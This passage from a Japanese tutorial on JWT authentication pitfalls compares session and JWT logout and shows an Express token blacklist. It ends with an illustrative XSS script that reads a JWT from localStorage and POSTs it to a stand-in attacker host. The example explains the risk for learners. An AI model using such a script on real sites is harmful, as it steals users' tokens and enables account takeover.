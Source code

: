 
### 第3章：JWTの落とし穴に落ちた日

私：「JWT最高！もうSessionには戻れない！」

**でも、現実はそう甘くなかった...**

#### 落とし穴1：「ログアウトできない！？」

```javascript
// Session方式のログアウト
app.post('/logout', (req, res) => {
  req.session.destroy();  // セッション削除
  res.json({ message: 'ログアウト成功' });
});

// JWT方式のログアウト
app.post('/logout', (req, res) => {
  // ...どうする？
  // トークンはクライアント側にある
  // サーバーは「このトークンは無効」と記録できない
  res.json({ message: 'ログアウト成功（？）' });
});

// 問題：古いトークンがまだ有効
// ユーザーA：「ログアウトしたのに、なぜかまだアクセスできる...」
```

**解決策：ブラックリスト**

```javascript
const blacklistedTokens = new Set();

app.post('/logout', authenticateToken, (req, res) => {
  const token = req.headers['authorization'].split(' ')[1];
  blacklistedTokens.add(token);  // ブラックリストに追加
  res.json({ message: 'ログアウト成功' });
});

function authenticateToken(req, res, next) {
  const token = req.headers['authorization']?.split(' ')[1];
  
  if (blacklistedTokens.has(token)) {
    return res.status(401).json({ error: 'ログアウト済み' });
  }
  
  // JWT検証...
}
```

私：「あれ？結局サーバーが状態を持ってる...😅」

#### 落とし穴2：「トークンが盗まれたら終わり」

```javascript
// XSS攻撃でJWTが盗まれる例
// 悪意のあるスクリプトが埋め込まれた場合

<script>
  // localStorageからトークンを盗む
  const stolenToken = localStorage.getItem('token');
  
  // 攻撃者のサーバーに送信
  fetch('https://evil-hacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({ token: stolenToken })
  });
</script>
```